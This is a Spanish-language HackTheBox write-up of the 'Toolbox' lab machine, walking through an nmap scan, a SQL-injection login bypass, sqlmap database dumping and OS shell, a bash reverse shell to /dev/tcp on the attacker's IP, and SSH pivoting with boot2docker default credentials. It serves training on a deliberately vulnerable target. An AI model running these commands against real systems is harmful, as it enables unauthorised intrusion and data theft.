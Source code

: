 ```yaml
---
title: Toolbox | Windows
published: 2025-03-11
image: "./logo.png"
tags: [Easy, Windows, PostgreSQL Injection (RCE), Abusing boot2docker, Pivoting, OSCP, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- PostgreSQL Injection (RCE)
- Abusing boot2docker [Docker-Toolbox]
- Pivoting

### Preparación

- eWPT
- OSCP (Intrusión)

***

## Reconocimiento

Para comenzar con el reconocimiento, empezaremos con un escaneo de nmap hacia los puertos de esta máquina.

```
nmap -p- -sCV -oN nmap_report -vvv 10.10.10.236
```

```
# Nmap 7.95 scan initiated Mon Mar 10 23:21:52 2025 as: /usr/lib/nmap/nmap --privileged -p- -sCV -oN nmap_report -vvv 10.10.10.236
Nmap scan report for 10.10.10.236
Host is up, received echo-reply ttl 127 (0.042s latency).
Scanned at 2025-03-10 23:21:52 CET for 85s
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 FileZilla ftpd 0.9.60 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGMBbGgDiOZZt3bkOSs3/y3cFfYWVGPbw89lYh0OGLZ0J2eQfLPchbOe5jj+FY8uwizKA4ZwPrLe523TXoxTXmoI80LBl3sOPDb9xCBMfpYI72DRMiipB88CYC4vez8lsyofabtC2t
kl6aMLc2zom62cI0jjBpmjLfLDUy1O9f/vFw0H+Qr2nGxr81dIy7E5ca5+lxMW1RP++TZAKK243GqgJLoZFRINIjA9QIgBmD2ZYSyUM3nkd8Kc5EuaaWuhggstXDEXOnxJP7S8p12IJhjtF2Tikcy5pg+qFD128o+PBa19FFc6NtNdaWDA
nt8HvuZUbDgKy+e33ytA2dworB
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIR9i0NqfFj31XNbDraGeI6rcylMmHucBKlMt4kswXRNyjdyXbxkYxHYt/cflrLg+687H7cfQKamV0RbLnqle7E=
|   256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOuBCr4Rn8G4uD6IINB2myKifcJ8tJU03cOPDpS5vz14
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      syn-ack ttl 127 Apache httpd 2.4.38 ((Debian))
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.38 (Debian)
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR/emailAddress=admin@megalogistic.com/organizationalUnitName=Web
| Issuer: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR/emailAddress=admin@megalogistic.com/organizationalUnitName=Web
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-02-18T17:45:56
| Not valid after:  2021-02-17T17:45:56
| MD5:   091b:4c45:c743:a4e0:bdb2:d2aa:d860:f3d0
| SHA-1: 8255:9ba0:3fc7:79e4:f05d:8232:5bdf:a957:8b2b:e3eb
| -----BEGIN CERTIFICATE-----
| MIIECTCCAvGgAwIBAgIUFlHtTkX6tBT3FO+WSrUupHAN9TkwDQYJKoZIhvcNAQEL
| BQAwgZMxCzAJBgNVBAYTAkdSMRMwEQYDVQQIDApTb21lLVN0YXRlMRkwFwYDVQQK
| DBBNZWdhTG9naXN0aWMgTHRkMQwwCgYDVQQLDANXZWIxHzAdBgNVBAMMFmFkbWlu
| Lm1lZ2Fsb2dpc3RpYy5jb20xJTAjBgkqhkiG9w0BCQEWFmFkbWluQG1lZ2Fsb2dp
| c3RpYy5jb20wHhcNMjAwMjE4MTc0NTU2WhcNMjEwMjE3MTc0NTU2WjCBkzELMAkG
| A1UEBhMCR1IxEzARBgNVBAgMClNvbWUtU3RhdGUxGTAXBgNVBAoMEE1lZ2FMb2dp
| c3RpYyBMdGQxDDAKBgNVBAsMA1dlYjEfMB0GA1UEAwwWYWRtaW4ubWVnYWxvZ2lz
| dGljLmNvbTElMCMGCSqGSIb3DQEJARYWYWRtaW5AbWVnYWxvZ2lzdGljLmNvbTCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAN11gJPFfp7ter5VFvgy0fCP
| 56N50Gk0R18C6e7KK3KKtXsjtIRD1Ri2ApmmjC+IwDpI0XgN0iem1NUbXE1HhwxB
| 1HrigkBudq3jQRVM0tVVYDK6+SEiOdehiXbc1Gsih0yUaMty4Ak6Asq4gli1g+ku
| fqtf7r273C8GJEQUHcCMBdXO/K1K2oTK9+bcsIETNuwALtwYbr/nim1RGLYQTtX7
| +CqkNj2Bw5YOxVqTAs5CQ3ZRIXTk/DLgR+bWOxxJKHLPFJfBq7czKkZ7k5gg9dPS
| HnWjW+amHutlRFYgRFeaaqiE+UBDVJDriB1zX1HUC3R1Y8IblatJRxV6tGKoG0cC
| AwEAAaNTMFEwHQYDVR0OBBYEFG4EpOryu7s315zTdLHk2SbghyWvMB8GA1UdIwQY
| MBaAFG4EpOryu7s315zTdLHk2SbghyWvMA8GA1UdEwEB/wQFMAMBAf8wDQYJKoZI
| hvcNAQELBQADggEBAEjzSNoiMG7e/dtnsy59rdMah0dkpRe5Dmi7gZt3IbdgwzSi
| rVOxWtnP3lItPB+/Y8+SOgqr/xUqd3cT1Ebol5ZraeWBvYUfaMG7XE7I98wWiSGW
| 6pqeCJ8cWmVuzI4y0E11BSTHoJQYCcshChahp7bt+TiqdfJLHeigO55W2FGXj1mf
| YGCZ8xnG6jOvXwA5xn8H2RT2teCpejfW/gN47rSCDSZbkcQCDuiak/LRQ71QO8y6
| 2KK6EnYIaO3OnyPHov0CvZdx0XgSJUpQTlMOySuXL+teRHmHPx/r7GOMGP0vpKLs
| OXZaAjnSN1+8nCldxAiaL8u4kxikQkaMKo1/5Ks=
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: MegaLogistics
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-10T22:23:14
|_  start_date: N/A
|_clock-skew: 2s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 61473/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12354/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 34913/udp): CLEAN (Failed to receive data)
|   Check 4 (port 23787/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 10 23:23:17 2025 -- 1 IP address (1 host up) scanned in 85.76 seconds
```

Podemos ver bastantes cosas interesantes como en el puerto **21** el inicio de sesión anónimo y el archivo o el dominio del puerto **443** que vamos a añadir al `/etc/hosts`.

### megalogistic.com

Vamos a ver que hay en el dominio `megalogistic.com`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FvJvlPmlubMNA5X8rLZPU%2F1.png?alt=media&#x26;token=ca2a7dd4-cb34-4557-b5eb-e050a8e3821e" alt=""><figcaption></figcaption></figure>

### admin.megalogistic.com

No parece haber nada interesante, vamos a ver ahora `admin.megalogistic.com`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F0iZlKIw2Nlwlh8GHfSRU%2F2.png?alt=media&#x26;token=540f6820-d61c-4043-92d5-c374e963a9e9" alt=""><figcaption></figcaption></figure>

### SQL Injection

En este dominio tenemos un panel de inicio de sesión. Vamos a probar una **inyección SQL**.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fuu1uPGEaQUHyPQSBrUhx%2F3.png?alt=media&#x26;token=b4c0069a-264a-40cb-95e2-a8e6062eaa12" alt=""><figcaption></figcaption></figure>

Vemos que al poner una comilla nos salta un error. Si buscamos información sobre `pq_query()` , veremos que es una base de datos **PostgreSQL**. Vamos a intentar saltar la validación de contraseña poniendo `admin' --`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmnYLproymcj2NyKY9BC6%2F4.png?alt=media&#x26;token=c5389444-a36d-4de5-a1c6-037b29032737" alt=""><figcaption></figcaption></figure>

Y ya estaríamos dentro del panel **admin**. Al no ver nada interesante, podemos intentar enumerar datos de la base de datos con **sqlmap**.

```
sqlmap -u http://admin.megalogistic.com --batch --force-ssl --dbms=PostgreSQL -X POST --data 'username=tony&password=pass'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F15RXC8L3HKTUqL9syg7s%2F5.png?alt=media&#x26;token=f90d5a41-ea4d-4976-89d1-d6c836708a17" alt=""><figcaption></figcaption></figure>

Vemos que tiene **4 puntos** diferentes de inyección, vamos a intentar usar el parámetro `--dump` , para intentar dumpear información de la base de datos.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FN1l2gdTTHZ2NhqugxHu4%2F6.png?alt=media&#x26;token=4a8bfd0e-38c3-4ade-aef5-0aba0fc167c5" alt=""><figcaption></figcaption></figure>

Vemos la contraseña en hash de admin, pero no hemos podido crackearla con un diccionario común. Ahora vamos a intentar usar `--os-shell`, para listar aún más información de la máquina.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FKX6XYcWIow4kUcnpnsq7%2F7.png?alt=media&#x26;token=879df1fb-e9b8-4622-8cd1-d7ee7518be24" alt=""><figcaption></figcaption></figure>

Confirmamos que estamos dentro de un Docker Linux.&#x20;

## Explotación

Vamos a crearnos una **revershe shell**.

```
bash -c 'sh -i >& /dev/tcp/10.10.14.15/8889 0>&1'
```

Y nos ponemos a la escucha por **netcat**. Además estabilizaremos la shell con los siguientes comandos:

```
python3 -c 'import pty;pty.spawn("bash")'  
ctrl + z
stty raw echo; fg
ctrl + m
```

Una vez hecho ya podremos obtener la user flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FUy6DqlCeaXCdjvTDZWUt%2F8.png?alt=media&#x26;token=aa28f774-c0c1-4d49-9460-bf2b99394604" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Buscando información sobre el docker **boot2docker** ([https://github.com/boot2docker/boot2docker](https://github.com/boot2docker/boot2docker)), podemos ver que es un **Docker** que funciona desde la **RAM** y está descontinuado. Buscando un poco en internet podemos ver que las credenciaes de acceso para **SSH** por defecto son **docker**:**tcuser**. Vamos a probarlas.

```
postgres@bc56e3cc55e9:/var/lib/postgresql$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 4817  bytes 704512 (688.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4976  bytes 5316919 (5.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Como nuestra IP es **172.17.0.2** la de la máquina real seguramente sea **172.17.0.1**.

```
ssh docker@172.17.0.1
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F5j2u56B1cdqQloXok3O5%2F9.png?alt=media&#x26;token=a2cb6029-d12d-45b9-a154-e217f4d1176a" alt=""><figcaption></figcaption></figure>

Investigando un poco el directorio **c** contiene el usuario **Administrator** y **Tony**, por lo que simplemente conseguimos la root flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FGOnTgH4H5HLg2XoXQcUk%2F10.png?alt=media&#x26;token=de9d9131-c3d9-45af-8647-e2ded2123947" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/339)

---